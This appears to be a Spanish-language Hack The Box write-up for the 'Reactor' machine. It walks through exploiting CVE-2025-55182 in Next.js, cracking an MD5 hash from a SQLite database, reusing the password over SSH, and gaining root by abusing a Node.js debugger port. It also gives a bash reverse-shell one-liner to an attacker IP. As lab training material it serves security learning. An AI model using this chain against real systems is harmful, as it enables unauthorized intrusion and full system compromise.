
<h1>Reactor</h1>
  

## ❓ ¿Qué es Reactor?

Reactor es una máquina Linux de dificultad fácil enfocada en enumeración web, identificación de tecnologías y explotación de una vulnerabilidad de ejecución remota de código sin autenticación en Next.js. Permite practicar la explotación de **CVE-2025-55182 (React2Shell)**, extracción de credenciales desde una base de datos SQLite, cracking de hashes MD5, reutilización de contraseñas mediante SSH y escalada de privilegios abusando del puerto de depuración de un proceso Node.js ejecutado como root.

## 🔝 Despliegue Reactor

Tras descargar el archivo **.ovpn** que ofrece la plataforma, es necesario iniciar la conexión VPN desde la terminal ejecutando:

**sudo openvpn archivo.ovpn**



Una vez levantada la VPN, comprobamos que existe conectividad entre nuestra máquina Kali y la máquina objetivo.

**ping -c 4 10.129.66.117**



## 🔎 Fase de descubrimiento

Conociendo la dirección IP de la máquina vulnerable, **10.129.66.117**, comenzamos realizando un escaneo inicial con **nmap** para identificar los servicios expuestos.

El comando utilizado es el siguiente:

**nmap -sC -sV -T4 10.129.66.117**

| Argumento | Significado |
|---|---|
| **nmap** | Herramienta utilizada para realizar el escaneo de puertos y servicios |
| **-sC** | Ejecuta scripts por defecto para realizar comprobaciones comunes |
| **-sV** | Detecta las versiones de los servicios identificados |
| **-T4** | Establece una velocidad de escaneo alta |
| **10.129.66.117** | Dirección IP del objetivo a escanear |



> [!NOTE]
>
> Se ha utilizado un escaneo rápido porque estamos trabajando en un entorno controlado de Hack The Box, donde no nos preocupa generar ruido ni ser detectados.
>
> En un entorno real, sería recomendable utilizar una aproximación más sigilosa, por ejemplo reduciendo la velocidad y empleando técnicas como **-sS**, que realiza un escaneo SYN sin completar totalmente la conexión TCP.

En este caso, se identifican los siguientes servicios TCP expuestos:

- **SSH - Puerto 22:** servicio de administración remota ejecutado mediante OpenSSH 9.6p1.
- **HTTP - Puerto 3000:** aplicación web desarrollada con Next.js.

Al visitar **http://10.129.66.117:3000**, encontramos una aplicación llamada **ReactorWatch**, descrita como un panel de monitorización del núcleo de un reactor nuclear.

El dashboard es accesible sin autenticación y expone telemetría interna:

- Potencia del reactor al **98,2 %**.
- Temperatura del núcleo de **324 °C**.
- Presión de **155 bar**.
- Flujo de refrigerante de **18,4 k m³/h**.
- Potencia de la turbina de **1,21 GW**.

También se muestra información sobre el personal presente en las instalaciones:

| Nombre | Puesto | Estado |
|---|---|---|
| Dr. Elena Rodriguez | Ingeniera nuclear principal | En línea |
| Marcus Kim | Técnico sénior | En línea |
| James Thompson | Responsable de seguridad | Desconectado |

Además, utilizando **whatweb** contra la aplicación, se identifica que está desarrollada con **Next.js**.

**whatweb http://10.129.66.117:3000/ -v**



Las cabeceras **X-Powered-By** y **x-nextjs-cache** confirman el uso de esta tecnología. El análisis de los recursos de la aplicación permite identificar la versión **Next.js 15.0.3**.

Al investigar la versión identificada, se comprueba que es vulnerable a **CVE-2025-55182**, conocida como **React2Shell**.

## 🖥️ Acceso al servidor

La vulnerabilidad **CVE-2025-55182** afecta al procesamiento de React Server Components y permite que un atacante no autenticado envíe una carga manipulada para conseguir ejecución remota de comandos.

La aplicación procesa de forma insegura determinados datos enviados mediante las Server Actions de Next.js. Esto permite abusar del proceso de deserialización y ejecutar comandos arbitrarios en el sistema operativo con los permisos del usuario que ejecuta el servicio web.

Para explotar la vulnerabilidad utilizamos la herramienta **React2Shell**. Primero clonamos el repositorio desde GitHub:



**git clone https://github.com/xalgord/React2Shell.git**

Después, accedemos al directorio descargado:

**cd React2Shell**



Ejecutamos el exploit indicando la URL de la aplicación vulnerable:

**python3 react2shell.py -u http://10.129.66.117:3000**

La herramienta consigue explotar la vulnerabilidad y abre una shell interactiva dentro del servidor.

Para comprobar el usuario con el que se ejecuta la aplicación, utilizamos:

**id**



El resultado confirma que hemos obtenido ejecución de comandos como el usuario **node**, cuyo identificador es **uid=999**.

## 🔓 Escalada de privilegios

Una vez dentro del servidor, comenzamos la enumeración local del sistema.

En primer lugar, revisamos el contenido del directorio de la aplicación:

**ls -la /opt/reactor-app**



Entre los archivos encontrados destacan:

| Archivo | Información |
|---|---|
| **.env** | Fichero de configuración y variables de entorno de la aplicación |
| **reactor.db** | Base de datos SQLite legible por el usuario node |

También revisamos el fichero **/etc/passwd** para identificar usuarios locales con una shell válida:

**cat /etc/passwd**



En el resultado aparece el usuario **engineer**, cuyo directorio personal es **/home/engineer** y que dispone de acceso a **/bin/bash**.

La herramienta React2Shell permite descargar archivos desde la máquina comprometida. Utilizamos esta función para obtener **reactor.db** y analizar la base de datos localmente.

Abrimos el fichero con SQLite:

**sqlite3 reactor.db**



Una vez dentro, listamos las tablas disponibles:

**.tables**

Después, revisamos la tabla de usuarios:

**SELECT * FROM users;**



En la tabla aparecen dos usuarios junto a sus contraseñas hasheadas:

| Usuario | Hash | Rol |
|---|---|---|
| **admin** | **a203b22191d744a4e70ada5c101b17b8** | administrator |
| **engineer** | **39d97110eafe2a9a68639812cd271e8e** | operator |

Para identificar el tipo de hash, guardamos el valor correspondiente a **admin** en un fichero:

**echo "a203b22191d744a4e70ada5c101b17b8" > contrasena.txt**

A continuación, utilizamos **hashid**:

**hashid contrasena.txt**



La herramienta indica que el valor es compatible con **MD5**.

Para intentar obtener la contraseña en claro, usamos **john** junto al diccionario **rockyou.txt**:

**john contrasena.txt --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt**



La contraseña obtenida es **fuckyouch021**.

Como ya disponemos de una credencial válida y hemos identificado una cuenta local llamada **engineer**, probamos reutilizar la contraseña mediante SSH contra la máquina víctima:

**ssh engineer@10.129.66.117**

El acceso es correcto. Dentro del directorio personal de **engineer** encontramos la flag de usuario.



## 🔐 Escalada a root

Para continuar con la escalada de privilegios, enumeramos los servicios locales que están escuchando en el sistema:

**ss -tulnp**

Durante la enumeración se identifica el puerto **9229** escuchando únicamente en **127.0.0.1**.

Este puerto corresponde al inspector o depurador V8 de Node.js. Cuando un proceso se inicia con la opción **--inspect**, el depurador permite evaluar código JavaScript dentro de ese proceso.

A continuación, revisamos el worker de Node.js situado en **/opt/uptime-monitor/worker.js**:

**cat /opt/uptime-monitor/worker.js**



El script consulta la aplicación ReactorWatch cada 30 segundos y almacena los resultados en un fichero CSV. Al revisar los procesos del sistema, se confirma que este worker se ejecuta como **root** y expone el depurador en el puerto local **9229**.

Como el puerto solo escucha en localhost, creamos un túnel SSH para redirigirlo a nuestra máquina atacante:

**ssh -L 9229:127.0.0.1:9229 engineer@10.129.66.117**

Una vez creado el túnel, nos conectamos al depurador con el cliente incluido en Node.js:

**node inspect 127.0.0.1:9229**

Dentro de la consola de depuración, utilizamos **process.mainModule.require** para acceder al módulo **child_process** y ejecutar el comando **id**:

**exec("process.mainModule.require('child_process').execSync('id').toString()")**



El resultado muestra **uid=0(root)**, confirmando que podemos ejecutar comandos con privilegios máximos.

Finalmente, lanzamos una reverse shell desde el proceso privilegiado:

**exec("process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.15.16/9002 0>&1\"').toString()")**



En nuestra máquina atacante iniciamos un listener en el puerto **9002**:

**rlwrap nc -lnvp 9002**

Tras ejecutar la carga, recibimos la conexión y obtenemos una shell como **root**.



Accedemos al directorio **/root** y leemos la flag final:

**cat /root/root.txt**



##   ¡Hola! Me llamo Saúl Ruiz 
### Analista de Ciberseguridad | Seguridad Ofensiva y Pentesting

Soy Analista de Ciberseguridad y Técnico Superior en Administración de Sistemas Informáticos en Red. Actualmente desarrollo mi carrera en entornos SOC, participando en tareas de análisis, monitorización e investigación de eventos de seguridad.

Mi interés principal se orienta hacia la seguridad ofensiva, el pentesting y el análisis técnico, áreas en las que sigo formándome de manera constante para crecer profesionalmente dentro del sector.

A través de mi proyecto personal <b>[@PlaSysX](https://linktr.ee/PlaSysx)</b>, comparto contenido relacionado con informática, ciberseguridad y aprendizaje práctico, con el objetivo de aportar valor a quienes también quieren seguir creciendo en el mundo tecnológico.

 

